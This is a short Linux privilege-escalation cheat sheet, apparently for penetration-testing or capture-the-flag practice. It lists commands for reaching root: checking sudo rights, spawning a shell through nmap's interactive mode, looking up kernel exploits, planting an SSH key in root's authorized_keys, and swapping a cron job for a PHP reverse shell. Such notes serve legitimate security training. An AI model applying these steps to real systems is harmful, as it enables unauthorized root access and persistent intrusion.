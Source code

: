 ### Privilege Escalation

#### If you have found any passwords on the machine, try running as root
```
sudo su
```
#### Check which commands sudo can run
``` 
sudo -l

# If you get something like 
# User asterisk may run the following commands on this host:
#    (root) NOPASSWD: /sbin/shutdown
#    (root) NOPASSWD: /usr/bin/nmap
# Google the application you can run as root, eg. nmap privilege escalation
sudo nmap --interactive
nmap> !sh
``` 
#### Check which version/year of Linux for privesc exploits
```
uname -a
```

#### If you can modify files as root
#### Try to add ssh public key to root/.ssh/authorized_keys
```
# Generate ssh key pair
ssh-keygen -o

# Copy the public key
cat /root/.ssh/id_rsa.pub

# Paste it into your root/.ssh/authorized_keys file (create if necessary)
# Then try and access through ssh from attacking machine
ssh root@targetip
```

#### Check the crontab for cron jobs you can exploit
```
cat /etc/crontab
# If you locate a cron job with a php command, replace it with a php reverse shell
```
